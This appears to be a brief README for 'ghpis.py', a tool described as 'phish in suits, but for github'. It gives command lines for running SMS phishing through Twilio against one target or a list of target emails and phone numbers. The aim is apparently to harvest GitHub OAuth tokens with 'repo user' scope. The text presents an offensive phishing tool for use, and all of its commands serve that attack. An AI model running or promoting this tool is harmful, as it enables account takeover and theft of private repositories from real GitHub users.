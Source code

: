 phish in suits, but for github


usage: 
single user
```
python3 ghpis.py \
  --client_id "178c6fc778ccc68e1d6a" \
  --twl_sid "twilio sid" \
  --twl_token "twilio token" \
  --from_phone "sender phone number with area code" \
  --tgt_email "user@example.com" \
  --tgt_phone "target phone number with area code" \
  --encryption_key "your 32bit encryption key" \
  --scope "repo user"

```

multi user

```
python3 ghpis.py \
  --client_id "178c6fc778ccc68e1d6a" \
  --twl_sid "twilio sid" \
  --twl_token "twilio token" \
  --from_phone "sender phone number with area code" \
  --encryption_key "32bit encryption key" \
  -f users.txt
```


expected file format: 

`users.txt`

```
user1@example.com,+10123456789
user2@example.com,+19876543210
```
